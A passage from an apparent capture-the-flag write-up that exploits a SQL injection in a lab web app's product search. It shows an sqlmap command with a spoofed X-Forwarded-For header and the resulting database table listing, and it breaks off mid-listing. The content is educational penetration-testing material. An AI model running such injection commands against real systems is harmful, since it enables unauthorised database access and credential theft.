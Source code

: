 It works we can access the page but we can do that in [burp][burp] in a persistent way
so we can browse the app in our web browser rather than with curl.

So now we can see this.

### Webapp Exploitation

**TL;DR**: search products SQLi: dump creds + cmd exec

There was a comment _Import Products_ and also a SQL database from the nmap scan
so we can try a SQL injection (SQLi).

I used [sqlmap][sqlmap] (not forgetting to add the `X-Forwarded-For` header) to
exploit the SQLi.

First, let's list tables:

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' --tables -H 'X-Forwarded-For: 192.168.4.28'

[00:29:49] [INFO] fetching tables for databases: 'information_schema, mysql, warehouse'
Database: information_schema
[77 tables]
...

Database: mysql
[31 tables]
+---------------------------------------+
| user                                  |
| column_stats                          |
| columns_priv                          |
| db                                    |
| event                                 |
| func                                  |
| general_log                           |
| global_priv                           |
| gtid_slave_pos                        |
| help_category                         |
| help_keyword                          |
| help_relation                         |
| help_topic                            |
| index_stats                           |
| innodb_index_stats                    |
| innodb_table_stats                    |
| plugin                                |
| proc                                  |
| procs_priv                            |
| proxies_priv                          |
| roles_mapping                         |
| servers                               |
| slow_log                              |
| table_stats                           |
| tables_priv                           |
| time_zone                             |
| time_zone_leap_second                 |
| time_zone_name                        |
| time_zone_transition                  |
| time_zone_transition_type             |
| transaction_registry                  |
+---------------------------------------+

Database: warehouse
[3 tables]
+---------------------------------------+
| product                               |
```